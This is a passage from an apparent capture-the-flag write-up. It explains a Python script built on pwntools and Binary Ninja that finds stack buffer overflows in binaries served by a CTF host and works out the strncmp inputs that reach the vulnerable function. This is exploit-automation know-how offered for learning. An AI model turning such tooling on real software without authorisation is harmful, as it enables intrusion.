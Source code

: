 ```c
  17 @ 0804887a  goto 20 @ 0x8048884

  18 @ 08048873  eax_4 = sub_8048ad7()
  19 @ 08048878  goto 20 @ 0x8048884

  20 @ 08048884  return eax_4
```
The way I determine which path to take is by looking for the `MLIL_IF` statement. This contains the condition and the `mlil_index` for each branch (16 and 18). I also grab the `mlil_index` for the reference to the call of the current function we are looking at. 

In this case the vulnerable function is `sub_8048ad7()`, so taking note that the `mlil_index` is 18 and the false branch destination is 18 we need the condtion to fail, which means the strncmp needs to return 0, ie the strings must match.

I use a place holder string `"g"`, for when we do not want to match the strings. The string can not be longer than the shortest value of `n` in the `strncmp` so we dont have any extra bytes in our buffer.

When we do want to match, I grab the parameter of the strncmp call and dereference it to get the value of the string.

Because we are recursively generating the inputs starting from the vuln function to main, we have to reverse the inputs we get to have the correct order.

```py
from pwn import *
from binaryninja import BinaryViewType, RegisterValueType, MediumLevelILOperation

def find_vuln(binary_path):
	bv = BinaryViewType.get_view_of_file(binary_path)
	read = bv.get_functions_by_name("read")[0]
	for ref in bv.get_code_refs(read.start):
		hlil = ref.function.get_llil_at(ref.address).hlil
		dest_buff = ref.function.get_parameter_at(ref.address,None,1)
		if dest_buff.type == RegisterValueType.StackFrameOffset:
			# buffer is on the stack
			stack_frame_size = abs(dest_buff.value)
			nbytes = ref.function.get_parameter_at(ref.address,None,2).value
			if nbytes > stack_frame_size:
				print(f"[!] Overflow at {hex(ref.address)}: {hlil}")
				print(f"\tBuffer size: {stack_frame_size}\n\tRead Size: {nbytes}")
				return bv,stack_frame_size, ref.address

def get_inputs(bv,vuln_address,inputs):
	func = bv.get_functions_containing(vuln_address)[0]
	ref = next(bv.get_code_refs(func.start))
	mlil_index = ref.function.get_llil_at(ref.address).mlil.instr_index
	for mlil_instruction in ref.function.mlil_instructions:
		if mlil_instruction.operation == MediumLevelILOperation.MLIL_IF:
			if mlil_index == mlil_instruction.false:
				param = mlil_instruction.hlil.operands[0].operands[0].params[0]
				addr = bv.reader().read32(param.operands[0].constant)
				data_string = bv.get_ascii_string_at(addr,min_length=3).value.encode()
			else:
				data_string = b"g"
			inputs.append(data_string)
			return get_inputs(bv,ref.address,inputs)

io = remote("ctf.battelle.org", 30042)
[io.readline() for _ in range(5)]
binary = io.readuntil(b"********************************",drop=True)
with open("binary","wb") as f:
	f.write(binary)
  
```